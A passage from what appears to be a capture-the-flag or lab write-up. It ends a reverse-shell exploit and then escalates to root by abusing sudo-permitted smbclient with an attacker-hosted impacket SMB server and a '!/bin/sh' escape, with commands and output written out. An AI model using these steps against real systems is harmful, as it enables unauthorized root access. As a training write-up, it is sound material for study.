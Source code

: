 ```python
    print(f"An error occurred: {e}")
finally:
    s.close()
```

Once the payload is sent, just run nc to receive the reverse shell! :D

## Post exploitation
In the `sudo -l` command, we see that smbclient can be executed with sudo permissions.
```bash
support@ip-172-16-0-70:/home/share/smbuser$ sudo -l
Matching Defaults entries for support on ip-172-16-0-70:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User support may run the following commands on ip-172-16-0-70:
    (ALL : ALL) NOPASSWD: /usr/bin/smbclient *
```

Looking at [GTFobins](https://gtfobins.github.io/gtfobins/smbclient/) we can escalate privileges by connecting to our smb server and executing /bin/bash. There are various ways to set up an SMB server, but I’ll use `impacket-smbserver`.

On my machine:
```bash
┌─[ribeirin@parrot]─[/tmp/smb]
└──╼ $sudo impacket-smbserver share /tmp/smb/ -smb2
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

On the machine with sudo permissions:
```bash
support@ip-172-16-0-70:/home/share/smbuser$ sudo smbclient '\\10.0.10.235\share'
Password for [WORKGROUP\root]:
Try "help" to get a list of possible commands.
smb: \> !/bin/sh
# id
uid=0(root) gid=0(root) groups=0(root)
```

And voilà! We have root user access! :)